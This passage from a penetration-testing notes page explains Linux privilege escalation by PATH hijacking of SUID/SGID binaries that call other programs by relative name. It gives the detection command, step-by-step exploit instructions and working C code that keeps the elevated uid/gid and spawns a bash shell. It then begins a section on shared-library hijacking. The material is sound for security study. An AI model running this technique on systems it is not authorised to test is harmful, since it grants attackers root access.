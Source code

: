 ###### Relative binary call and PATH exploit

If a binary with the `SUID` / `SGID` bit set runs another binary with out
specifying its full path, it can be leveraged to escalate privileges on the
system. The vulnerability arise because the Linux operating system relies on the
current user `PATH` environment variable to find the binary called and not the
path of the owner of the `SUID` / `SGID` binary.

Note that this attack primitive is not applicable to binaries executed through
`sudo`, if the `secure_path` value is set in the `sudoers` file. If set, the
`PATH` defined in the `PATH` value will indeed be used instead of the `PATH`
environment variable for the commands executed through `sudo`.

To detect that a `SUID` / `SGID` binary is calling others binaries with out
specifying their full path, the Linux `strings` utility can be used:

```bash
strings <SUID_BINARY>

# Example of a vulnerable call for the "cp" utility.
cp /etc/shadow /etc/shadow.bak
```

The exploit sequence is as follow:

  1. Include a writable by the current user folder in the `PATH` environment
     variable. Do not use a folder writable by all users as it could be used
     against the current  user and would lower the system security level.
     `export PATH=/home/<USERNAME>:$PATH`

  2. Create a binary named after the binary called by the `SUID` / `SGID`
     binary in the added folder. If the arguments used for the call permit it,
     `bash` or `sh` can be used directly.
     If not, the following C code can be used to compile a binary executing
     `/bin/bash` under the privilege of the user or group owner of the `SUID` /
     `SGID` binary. Refer to the `[General] Shells` note for reverse shell
     payloads if needed.

     ```c
     #include <stdlib.h>
     #include <unistd.h>

     void main() {
       // Bash drops its privilege if the effective uid is not the same as the real uid (if the -p option is not specified for bash).
       setreuid(geteuid(), geteuid());
       setregid(getegid(), getegid());
       system("/bin/bash");
     }
     ```

  3. Execute the vulnerable `SUID` / `SGID` binary.

###### Exploit through dynamic / shared library

The search order for the Linux dynamic linker is as follow, as stated in the
[`ld man page`](https://linux.die.net/man/1/ld):
  1. Any directories specified by the `-rpath-link` option (only effective at
     link time).
